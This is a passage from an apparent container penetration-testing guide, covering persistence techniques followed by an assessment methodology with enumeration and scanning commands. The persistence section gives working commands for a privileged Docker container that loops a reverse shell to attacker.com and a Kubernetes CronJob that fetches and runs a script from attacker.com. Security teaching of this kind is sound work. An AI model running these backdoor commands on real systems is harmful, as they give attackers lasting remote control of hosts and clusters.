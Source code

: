 ### Persistence in Container Environments

```bash
# Create a privileged container that starts on boot
docker run -d --restart=always --privileged --name persistence -v /:/host alpine sh -c 'while true; do sleep 60 && nc attacker.com 4444 -e /bin/sh; done'

# Kubernetes CronJob for persistence
kubectl create -f - << EOF
apiVersion: batch/v1beta1
kind: CronJob
metadata:
  name: persistence
spec:
  schedule: "*/5 * * * *"
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: backdoor
            image: alpine
            command: ["/bin/sh", "-c", "wget -q -O - http://attacker.com/backdoor.sh | sh"]
          restartPolicy: OnFailure
EOF
```

## Comprehensive Container Security Assessment Methodology

For structured container security assessments, follow this methodology:

### 1. Reconnaissance and Enumeration

```bash
# Identify container environments
docker version
kubectl version
env | grep KUBERNETES

# Enumerate container images
docker images
crictl images

# Map container networks
docker network ls
ip a | grep -i docker
```

### 2. Vulnerability Assessment

```bash
# Scan container images
trivy image [image-name]

# Check for known vulnerabilities
grype [image-name]

# Perform CIS benchmarks
docker-bench-security
kube-bench
```
